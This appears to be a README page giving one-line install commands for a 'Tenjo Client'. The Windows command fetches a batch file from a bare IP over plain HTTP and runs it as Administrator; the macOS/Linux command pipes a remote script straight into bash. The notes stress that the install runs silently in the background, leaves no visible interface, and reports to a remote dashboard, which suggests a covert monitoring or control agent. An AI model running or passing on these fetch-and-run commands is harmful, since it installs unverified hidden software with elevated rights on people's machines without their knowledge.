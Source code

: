 # 🚀 Tenjo Client - Quick Install Commands

## Server: 103.129.149.67

### Windows (Run as Administrator)
```cmd
powershell -Command "Invoke-WebRequest -Uri 'http://103.129.149.67/downloads/easy_install_windows.bat' -OutFile 'tenjo.bat'; .\tenjo.bat"
```

### macOS / Linux
```bash
curl -sSL http://103.129.149.67/downloads/easy_install_macos.sh | bash
```

---

**Important Notes:**
- Windows: Must run as Administrator (right-click Command Prompt → "Run as administrator")
- When prompted for server URL, enter: `http://103.129.149.67`
- Installation is automatic and runs silently in background
- No visible interface after installation

**Dashboard Access:** http://103.129.149.67

**Support:** Include error messages if installation fails
